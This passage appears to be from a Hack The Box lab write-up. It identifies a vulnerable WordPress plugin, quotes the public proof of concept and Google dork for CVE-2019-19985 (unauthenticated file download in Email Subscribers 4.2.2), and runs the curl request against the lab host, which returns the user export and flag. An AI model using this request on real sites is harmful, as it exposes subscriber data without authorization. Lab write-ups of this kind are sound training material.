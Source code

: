 ```
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blog.inlanefreight.local/wp-content/plugins/the-events-calendar/readme.txt
```

We have 3 plugins:

```ad-info
1. email-subscribers 4.2.2
2. site-editor 1.1.1
3. the-events-calendar 5.1.2.1
```

We can begin by checking each one of them using the versions to check if there's any vulnerability regarding the version:

![](gitbook/cybersecurity/images/Pasted%20image%2020250220142950.png)

Found the one we need, it is a `email-subscribers 4.2.2 Unauthenticated File Download` Exploit, here's the PoC:

```
# Exploit Title: WordPress Plugin Email Subscribers & Newsletters 4.2.2 - Unauthenticated File Download
# Google Dork: "Stable tag" inurl:wp-content/plugins/email-subscribers/readme.txt
# Date: 2020-07-20
# Exploit Author: KBA@SOGETI_ESEC
# Vendor Homepage: https://www.icegram.com/email-subscribers/
# Software Link: https://pluginarchive.com/wordpress/email-subscribers/v/4-2-2
# Version: <= 4.2.2
# Tested on: Email Subscribers & Newsletters 4.2.2
# CVE : CVE-2019-19985


curl [BASE_URL]'/wp-admin/admin.php?page=download_report&report=users&status=all'
EXAMPLE: curl 'http://127.0.0.1/wp-admin/admin.php?page=download_report&report=users&status=all'
```

So, we need to use curl in the following way:

```bash
curl 'http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all'
```

We get this output:

```
curl 'http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all'

"First Name", "Last Name", "Email", "List", "Status", "Opt-In Type", "Created On"
"admin@inlanefreight.local", "HTB{unauTh_d0wn10ad!}", "admin@inlanefreight.local", "Test", "Subscribed", "Double Opt-In", "2020-09-08 17:40:28"
"admin@inlanefreight.local", "HTB{unauTh_d0wn10ad!}", "admin@inlanefreight.local", "Main", "Subscribed", "Double Opt-In", "2020-09-08 17:40:28"

```
